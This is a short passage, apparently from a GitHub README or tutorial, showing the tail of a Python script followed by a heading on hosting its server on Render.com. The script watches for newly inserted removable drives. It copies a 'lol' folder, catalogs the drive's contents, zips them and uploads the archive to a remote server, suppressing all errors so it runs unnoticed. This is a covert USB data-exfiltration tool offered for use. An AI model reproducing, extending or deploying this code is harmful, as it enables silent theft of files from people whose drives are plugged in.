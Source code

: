 ```python
            if new_drives:
                for drive in new_drives:
                    try:
                    
                        sanitized_drive = sanitize_drive_name(drive)
                        lol_folder = check_directory(drive, "lol")

                        if lol_folder:
                            
                            copy_folder(lol_folder, os.path.join(BACKUP_FOLDER, f"lol_{sanitized_drive}"))

                        # Scan drive and update log
                        folders, files = scan_drive(drive)
                        update_log(drive, folders, files)

                        # Create ZIP archive of the backup folder
                        zip_file = create_zip(drive)

                        # Upload ZIP file to the server
                        upload_zip(zip_file)

                        # Clear the backup folder
                        clear_backup_folder()

                    except Exception as e:
                        pass

            detected_drives = removable_drives  # Update detected drives
            time.sleep(5)  # Check every 5 seconds
        except Exception as e:
        
            time.sleep(5)  # Wait and retry


if __name__ == "__main__":
    run()


```

### UPLOADING THE SERVER ON RENDER.COM
**first i upload the webserver code on github**